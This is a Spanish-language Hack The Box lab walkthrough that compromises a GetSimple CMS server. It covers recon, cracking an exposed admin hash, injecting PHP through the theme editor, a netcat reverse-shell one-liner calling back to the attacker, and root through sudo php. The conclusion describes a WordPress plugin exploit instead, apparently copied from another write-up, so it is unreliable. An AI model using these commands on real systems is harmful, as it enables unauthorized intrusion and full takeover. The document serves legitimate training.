# GetSimple | Shell reverse

### Exención de responsabilidad

Este contenido tiene fines educativos, y está diseñado para ser utilizado únicamente en entornos controlados y con permisos explícitos.
Hack The Box y otras plataformas similares proporcionan entornos de práctica legalmente autorizados, y se debe asegurar que se cuenta con los permisos adecuados antes de realizar cualquier prueba de penetración o hacking ético.

El autor de esta publicación no se responsabiliza por el uso indebido de las técnicas y herramientas descritas fuera de los entornos legales y éticos correspondientes.

---


# Índice

## 0. Consideraciones éticas  
- [Exención de responsabilidad](#exencion-de-responsabilidad)  
- [Consideraciones éticas](#consideraciones-eticas)

## 1. Fase de Reconocimiento  
- [Escaneo de puertos y servicios con Nmap](#1-escaneo-de-puertos-y-servicios-con-nmap)  
- [Escaneo TCP completo con Nmap](#2-nmap-tcp-full-en-segundo-plano)  
- [Enumeración de puertos con Nmap](#3-nmap-enumeracion-de-puertos)  
- [Detección de tecnologías con WhatWeb](#4-enumeracion-de-tecnologias-con-whatweb)  
- [Enumeración de rutas con Gobuster](#5-enumeracion-de-dominios-con-gobuster)  
- [Análisis de información recopilada](#6-analisis-de-la-informacion-recopilada-hasta-ahora)  

## 2. Fase de Intrusión  
- [Acceso al panel de autenticación](#acceso-al-panel-de-autenticacion-y-exploracion-de-la-web)  
- [Identificación de vulnerabilidades en GetSimple](#identificacion-de-vulnerabilidades-en-getsimple)  
- [Exploración de archivos editables](#exploracion-de-archivos-editables)  

## 3. Explotación de Vulnerabilidad  
- [Ejecución de código a través de archivos editables](#explotacion-de-vulnerabilidad---shell-reversa)  
- [Carga de una shell reversa](#carga-de-una-shell-reversa)  
- [Obtención de acceso remoto](#obtencion-de-acceso-remoto)  

## 4. Post-Explotación  
- [Escalada de privilegios](#escalada-de-privilegios)  
- [Mantenimiento del acceso](#mantenimiento-del-acceso)   

## 5. Conclusiones y Recomendaciones  
- [Resumen de la explotación](#resumen-de-la-explotacion)  
- [Medidas de mitigación](#medidas-de-mitigacion)   

## 6. Referencias y Documentación  
- [Fuentes utilizadas](#fuentes-utilizadas)  
- [Documentación adicional](#documentacion-adicional)  

---

## Fase de reconocimiento

### 1 Escaneo de puertos y servicios con Nmap

El primer escaneo de Nmap lo iniciamos utilizando la lista de puertos más comunes que Nmap escanea por defecto cuando no se especifican puertos (es decir, al no usar el parámetro `-p` con un rango de puertos o `-p-`, Nmap escanea los 1000 puertos más comunes).

Este paso es fundamental en cualquier prueba de penetración, ya que nos permite identificar los servicios y puertos abiertos en el sistema objetivo.


```bash
nmap --open -sV -n -Pn -sS -v -oA initial_scan_nmap IP_objetivo
```

[i] El parámetro `--open` hace que Nmap solo reporte los puertos abiertos, lo cual es útil cuando queremos centrarnos exclusivamente en los servicios activos y no perder tiempo con puertos cerrados.

[i] El parámetro `-sV` se utiliza para identificar la versión de los servicios que están corriendo en los puertos abiertos, lo cual es crucial para detectar vulnerabilidades conocidas asociadas a versiones específicas de los servicios.

[i] El parámetros `-n` se utiliza para agilizar el proceso, ya que evita la resolución DNS (es decir, Nmap no intentará traducir las direcciones IP a nombres de dominio). Además, esto ayuda a minimizar el tráfico DNS, lo cual es relevante en pruebas de penetración donde se desea mantener un perfil bajo y evitar la detección temprana.

[i] El parámetro `-Pn` evita que Nmap realice una verificación de hosts con ping (ICMP), lo cual es necesario si el objetivo tiene medidas de protección contra este tipo de escaneos. En redes donde los hosts no responden a pings, este parámetro garantiza que el escaneo se realice sin fallar en la detección del host.

[i] El parámetro `-sS` realiza un "SYN scan", que es una técnica rápida y sigilosa. Este tipo de escaneo no completa el handshake TCP, lo que permite detectar puertos abiertos sin dejar muchas huellas en el sistema de destino, lo que lo hace más difícil de detectar por medidas de seguridad.

[i] El parámetro `-v` aplica "verbosidad", aplicando una capa extra de información que nos irá mostrando por pantalla mientras el escaneo procede. Sirve para obtener información osbre la marcha. Con `-vvv` obtendríamos algo más de información sobre el escaneo.

En este caso encontramos dos puertos abiertos (no es poca cosa), vemos los servicios y las versiones que corren por sus respectivos puertos.



---

### 2 `Nmap` TCP full (en segundo plano)

Para asegurar podemos dejar corriendo en segundo plano o en una terminal a parte un segundo escaneo de nmap, que enumere todos los puertos TCP abiertos en la dirección IP dada.

```bash
nmap -p- --open -sV -n -Pn -sS -v --max-retries 1 --min-rate 5000 -oA initial_scan_nmap IP_objetivo
```
[i] El parámetro `-sC` ejecuta un serie de scripts predeterminados por nmap, de esta forma podemos hacer una primera aproximación con más detalle de cada puerto numerado.


[ i ] En este caso, no se detectó ningún puerto adicional.

---

### 3 Nmap enumeración de puertos 

Lo siguiente es obtener más información sobre cada puerto abierto. Para ello usamos el parámetro `-sC` ejecuta un serie de scripts predeterminados por nmap, de esta forma podemos hacer una primera aproximación con más detalle de cada puerto numerado.

```bash
nmap -p22,80 -sV -sC -Pn -sS -vvv -oA initial_scan_nmap IP_objetivo
```


[ i ] Para fines de esta guía, solo se detallan los resultados para el puerto 80 como ejemplo.

[ i ] El parámetro `-sC` ha descubierto información interesante. Las rutas **'/admin/'** y **'/robots'**. Más adelante analizaremos esto. Antes ejecutemos un par de comandos más para tener una visión más global.

---

### 4 Enumeración de tecnologías con `whatweb`

*WhatWeb* es útil para detectar tecnologías web como CMS, frameworks y otras herramientas que podrían ser útiles para el reconocimiento.

```bash
whatweb http://IP_objetivo:80/
```


### 5 Enumeración de dominios con `gobuster`

```bash
sudo gobuster dir -u http://IP_objetivo:80/ -w /usr/share/SecLists/Discovery/Web-Content/commont.txt
```


[ + ] El repositorio oficial de **SecLists** está en GitHub:

🔗 https://github.com/danielmiessler/SecLists

Para clonar el repositorio completo con git:

```bash
git clone https://github.com/danielmiessler/SecLists.git
```
[ i ] Normalmente este repositorio se guarda en la ruta `/usr/share/`, que es una buena práctica.


[ + ] Si necesitas todo el repositorio pero sin git, puedes descargarlo como un .zip:

```bash
wget https://github.com/danielmiessler/SecLists/archive/refs/heads/master.zip
```


[ + ] Para descomprimir con `7zip` (7z): es una de las herramientas más potentes para compresión y descompresión, ya que soporta múltiples formatos como .7z, .zip, .tar, .gz, .rar, .iso, entre otros.

```bash
7z master.zip
```

### 6 Análisis de la información recopilada hasta ahora

	`- *Puerto 80* Servidor Apache 2.4.41 (UBUNTU)

	`- `http://IP_objetivo:80` Esta URL nos dirige a una Web que nos confirma el servicio que corre por el puerto 80: **GetSimple** La apariencia de esta página nos hace plantearnos la hipótesis de que este sin configurar y por lo tanto mantenga las credenciales por defecto. Podríamos probar en un posible panel de autenticación credenciales por defecto del tipo: root:root admin:admin admin:password (Son solo algunos ejemplos que se pueden probar).

	

	`- `/robots.txt` Revelo la existencia de una ruta `/admin/` oculta. 

	`- `/admin/` Accedemos a una ruta que nos lleva a un panel de autenticación, donde podemos probar combinaciones de usuario y contraseña comunes.
	
	
	
	`- `ctrl+U` Accedemos al código fuente HTML de la página de autenticación. Si vamos viendo cada línea, vemos que las variables **Username** y **Password** son nombradas como 'userid' y 'pwd' respectivamente. Esta información es relevante y será explicada más adelante.
	
	[ i ] `ctrl+U` es un atajo en los navegadores que muestra el código fuente de la página web.
	
	

	`- `/data` La URL propocionada por `gobuster`nos lleva a diferentes rutas interesantes. Entre ellas encontramos `/data/` con varios directorios ocultos.
	
	
	
	`- `/data/user` Esta ruta que encontramos en los directorios ocultos nos muestra información reveladora. Vemos valores para `'USR' = 'admin', 'PWD' = una_especie_de_código_cifrado y 'MAIL' = 'admin@gettitstarted.com'`.
	
	
	
	`- https://crackstation.net/ CrackStation: Descifra hashes rápidamente y de manera gratuita. Con este recurso probamos a meter el valor 'PWD' Nos revela el descifrado como **'admin'**. Ahora tenemos un posible usuario ('admin') y una posible contraseña ('admin'). Esta información confirmaría la hipótesis anterior sobre la configuración prederminada del servicio GetSimple que corre por el puerto 80 de la ip objetivo.
	
	

[ + ] Un hasher es una herramienta o función que convierte datos (como contraseñas, textos o archivos) en un hash, que es una cadena de caracteres de longitud fija generada mediante un algoritmo de hash como MD5, SHA-1, SHA-256, etc.

---

## Fase de intrusión

### Acceso al panel de autenticación y exploración de la Web

Tras probas las credenciales de nuestra hipótesis, conseguimos acceso a una nueva ruta `/pages.php`. De entrada esto nos hace pensar en la hipótesis de hacer la técnica de cargar (upload) un archivo `'.php'` en alguna parte de la Web.





[ i ] En esta página saltan varios elementos a la vista. Existen varias rutas (como file, theme y pluggins) así como un apartado de 'setting' y otro de 'support'. Este último tiene una exclamación, así que acudamos a él para ver que encontramos.


[ i ] Vemos que la versión existente de GetSimple es la '3.3.15', una versión desactualizada que podría ser vulnerable a ciertos ataques. Podríamos buscar por `'searchsploit'` (herramienta para buscar en su base de datos exploits públicos) o por una búsqueda simple por Google o en páginas como https://www.rapid7.com/db/

[ i ] Esta misma información coincide con la que podemos encontrar navegando por las rutas ocultas. En concreto por la de cache.



[ i ] Existen exploit públicos para el servicio GetSimple, como podemos ver en una búsqueda rápida de 'searchsploit':


[ !!! ] **NOTA IMPORTANTE:** En 'Hack The Box' y otras plataformas está **PROHIBIDO** ejecutar exploits 'Dos' (Denegación de Servicios). Por razones obvias desaconsejamos encarecidamente probar estos exploits en plataformas cuyo uso no esta permitido. Asegurate de leer las normas de cada plataforma y recursos que utilices antes de hacer nada en o a través de ellas. Para este ejercicios si podrías usar exploits que no seas de 'DoS', como por ejemplo el de 'RCE' (Ejecución Remota de Comandos).

Explorando la página tratamos de validar la hipótesis de la carga de algún archivo '.php'. Sin embargo, no encontramos ninguna forma aparente de poder subir ningún archivo nuevo.

[ i ] Navegando vemos que el apartado de 'Themes'tiene una opción de 'Edit Theme', la cual nos puede llevar a introducir código malicioso en algún archivo ya existente en la Web.



[ i ] Efectivamente esta opción nos lleva a la capacidad de poder editar archivos existentes.


---

### Explotación de vulnerabilidad - Shell Reversa

Probamos a introducir un comando de prueba, para tratar de verificar la ejecución de código en la Web, a través de archivos que cargue la propia página al actualizarse. Podemos probar introduciendo el siguiente comando al final de todo el texto existente, aparte de cualquier cuadro o tarjeta de código que pueda haber.

```bash
>?php system('id'); ?>
```

Esto enviará a alguna parte de la página (en principio dada su ubicación en el código debería ser al final de la página que carga el 'Theme' que es el principal que vemos en la URL http://IP_objetivo:80) el resultado de ejecutar el comando `'id'`. Que es el comando que hemos introducido para ejecutar en nuestra inyección de código a través del archivo existente .php de la propia página.


[ i ] Si nos dirigimos a la ruta http://IP_objetivo:80 o actualizamos y nos fijamos en su contenido, en alguna parte debería de verse el resultadod el comando 'id'. Justo es lo que vemos al final de la página:

[ ! ] Primero muestro el estado de la página sin la inyección de código, y a continuación su actualización con el código ejecutado.





Como la ejecución de comandos ha sido exitosa. Ahora estamos en condiciones de probar a ejecutar un código considerado malicioso (por lo que determinados sistemas y configuraciones de firewall podrían mostrar alertas y/o bloquear su ejecución, esto podría pasarte si lo ejecutas en tu Sistema Operativo nativo -pongamos que en Windows o MacOS-, tenlo en cuenta si procede) como es una 'Shell Reversa'. Esto es ejecutar un código que lo que hace es enviar una shell (una terminal de comandos funcional) a la dirección IP y puerto que señalemos en él.

[ i ] Comando para enviar una `Shell Reversa`:

```bash
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <NUESTRA_IP> <PUERTO_DE_ESCUCHA> >/tmp/f") ?>
```

[ ! ] Importante. Antes de actualizar la página principal, tenemos que ponernos en escucha con `'Netcat'` por el puerto que hayamos definido el la shell reversa. Normalmente se usa alguno por encima del 1024 (ya que suelen estar reservados para servicios predeterminados).


Para ponernos en escuha con `Netcat` en nuestra máquina atacante usamos el siguiente comando (suponemos que seguís la guía desde un sistema Parrot Security o equivalentes con todas estas herramientas ya instaladas, si no es el caso normalmente en Linux con un sudo apt install 'nombre_herramienta' suele instalarse o aportarte información de cómo hacerlo):

```bash
nc -lvnp 1234
```



Al hacer esto y actualizar en la página principal víctima. En nuestra máquina atacante, por donde ejecutamos Netcat deberíamos de obtener una Shell Reversa.


Para obtener una shell más interactiva podemos ejecutar el siguiente comando:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```


Una vez tenemos una shell en condiciones. Probemos a navegar por ella. Podríamos probar comandos como `whoami` para saber que usuario somos o comandos como `ls` para mostrar archivos y directorios existentes, o ubicarnos con el comandos `pwd`.


---

### Explotación de vulnerabilidad - Elevación de privilegios

Uno de los primeros comandos que podemos ejecutar siempre que necesitemos elevar nuestros privilegios a un usuario o mejor aún a root (usuario administrador del sistema). Podemos ejecutar el siguiente comando:

```bash
sudo -l
```

[ i] Este comando, siempre que tengamos la capacidad de ejecutarlo (que deberíamos) nos mostrará los binarios que el usuario actual puede ejecutar con privilegios de sudo (superusuario o root). Además, muestra si dichos binarios se pueden ejecutar con o sin contraseña.




Como tenemos la capacidad de ejecutar comandos con sudo a través del binario `'/usr/bin/php'`, podemos ejecutar el siguiente comando para elevar nuestros privilegios a root:

```bash
sudo /usr/bin/php -r 'pcntl_exec("/bin/bash", ["-p"]);'
```


De este modo deberíamos de obtener un 'prompt' (forma de referirse a la barra/texto que precede a la introducción de comandos) como root


---

## Conclusión

Este ejercicio se centra en la explotación de una vulnerabilidad de un plugin en una instalación de WordPress. El objetivo es identificar y explotar la vulnerabilidad para obtener acceso a la máquina objetivo.

Este ejercicio demuestra cómo una vulnerabilidad en un plugin de WordPress puede ser aprovechada para obtener acceso a la máquina objetivo. Es fundamental realizar un reconocimiento exhaustivo utilizando herramientas como Nmap y Wpscan para identificar vulnerabilidades. Además, la explotación de vulnerabilidades en servicios web requiere un manejo cuidadoso para evitar la detección y maximizar la efectividad del ataque.

---

## A tener en cuenta

	`- Cerrar netcat después de usarlo: Es importante cerrar las conexiones de netcat después de usarlas para evitar que queden abiertas y sean potencialmente explotadas.
	
	`- Uso de contraseñas débiles: Siempre que sea posible, debemos evitar contraseñas débiles. En este caso, la máquina objetivo tiene credenciales débiles que facilitaban el acceso. En entornos reales, deberíamos fomentar el uso de contraseñas fuertes y autenticación de múltiples factores.
	
	`- Permanecer discreto: Al realizar un ataque de este tipo, es recomendable mantener un perfil bajo para evitar que las actividades sean detectadas. Esto implica configurar adecuadamente las herramientas y no dejar rastros evidentes.

	`- Actualizar plugins y software: Asegúrate de que todos los plugins y el software de WordPress estén actualizados. Muchas vulnerabilidades son conocidas y pueden ser fácilmente evitadas mediante la instalación de actualizaciones de seguridad.
	
	`- Revisión de logs: Durante un ataque, es esencial monitorizar los logs de las máquinas afectadas para detectar cualquier comportamiento sospechoso. Los logs pueden proporcionar información valiosa para identificar y mitigar ataques en tiempo real.
	
---

## Recomendaciones adicionales

	`- Pruebas de seguridad constantes: Es recomendable realizar pruebas de penetración periódicas para identificar posibles vulnerabilidades en los sistemas. Esto ayudará a garantizar que los sistemas estén protegidos contra vulnerabilidades conocidas.

	`- Uso de herramientas de escaneo de vulnerabilidades: Además de los métodos manuales, existen herramientas automatizadas como WPScan y Nikto que pueden realizar escaneos rápidos y eficientes para detectar vulnerabilidades en servicios web como WordPress.

	`- Escalada de privilegios automatizada: Existen scripts y herramientas como LinPEAS o Linux Exploit Suggester que pueden ayudarte a identificar formas automáticas de escalar privilegios en sistemas vulnerables.

---

## Referencias y agradecimientos

En lo personal, la resolución de este ejercicio pude lograrla gracias a la aportación de esta Web: https://andersonsikkerhet.wordpress.com/2023/03/30/htb-academy-knowledge-check/ al cual agradezo encarecidamente su aportación a la comunidad.

De igual modo puede encontrar una excelente orientación en el módulo de 'Hack The Box' donde poder resolver (entre otros) este ejercicio: https://academy.hackthebox.com/achievement/1783925/path/13 obviamente, mis más sinceros agradecimientos y sinceras recomendaciones a 'Hack The Box' por sus enriquecedoras aportaciones a la comunidad.

---

## Documentación adicional

`- Nmap - Guía de uso (Español-múltiples idiomas): https://nmap.org/man/es/

`- Metasploit Framework - Guía de uso (Inglés): https://docs.metasploit.com/

`- WPScan - Documentación oficial (Inglés): https://wpscan.com/themes/

`- Ruta para script de enumeración de vulnerabilidades con acceso a elevar privilegios: https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh

	`- Se puede decargar con wget: wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh

	`- También se puede descargar con curl: curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -o LinEnum.sh


## Consideraciones Éticas y Legales

Esta documentación se proporciona **exclusivamente con fines educativos**.
Las técnicas y procedimientos descritos están diseñados para ser aplicados en **entornos controlados**, como laboratorios personales o plataformas de formación como Hack The Box.

⚠ **IMPORTANTE:**  
El uso indebido de estos conocimientos en sistemas sin autorización constituye una violación de la ley y puede acarrear consecuencias legales graves.  
Antes de realizar cualquier prueba de seguridad, asegúrate de contar con el **consentimiento expreso** del propietario del sistema.

### Asegúrate de:
- Realizar pruebas solo en máquinas y entornos de **pruebas de penetración legal**.
- Nunca realizar pruebas en sistemas sin tener **permiso explícito** para hacerlo.

Para más información sobre prácticas de hacking ético, puedes revisar los términos y condiciones de Hack The Box en:  
🔗 [https://www.hackthebox.com/terms](https://www.hackthebox.com/terms)  
